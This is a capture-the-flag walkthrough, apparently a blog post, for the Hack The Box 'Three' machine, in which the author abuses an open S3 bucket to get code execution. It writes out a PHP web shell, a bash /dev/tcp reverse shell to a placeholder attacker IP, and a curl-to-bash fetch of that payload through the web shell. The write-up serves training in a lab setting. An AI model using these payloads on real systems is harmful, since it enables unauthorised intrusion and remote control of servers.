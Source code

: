 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# _**Summary**_ 

* _in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it._ 

# _**NMAP**_
![](/Assets/HTB/THREE/assets/namp.png)

# _**Ports**_ 
_we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser ._ 



![](/Assets/HTB/THREE/assets/web.png)



_By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow ._

_**NOTE** : add ip of machine in **/etc/hosts**_ 

_**like that  echo "10.129.227.248 thetoppers.htb"|sudo tee -a /etc/hosts**_

![](/Assets/HTB/THREE/assets/gobuster.png)

_we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**_

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that_ 


![](/Assets/HTB/THREE/assets/s3.png)

_The webpage only contains the perivous JSON._

_We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli**_

_First, we need to configure it using the following command. **aws configure**_

![](/Assets/HTB/THREE/assets/ls.png)

_We can list all of the S3 buckets hosted by the server by using the ls command._

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

_We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage._

_**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution._


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command._

**<?php system($_GET["cmd"]); ?>**

_then make file php_

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

_Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command_


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/shell.png)


![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 ._



_**bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1**_

_will start net cat listener by command **nc -nvlp 1337**_

_in addtion to will start http local server on port 8000 and host this bash file and we must open http server from directory which have bash file_

_by this command will start http server **python3 -m http.server 8000**_

![](/Assets/HTB/THREE/assets/httpremote.png)

_we will use **curl** to fetch the bash file and do that in browser by this **http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash**_ 

![](/Assets/HTB/THREE/assets/remote1.png)

![](/Assets/HTB/THREE/assets/flag1.png)



_**Thanks for watching my Blog**_
























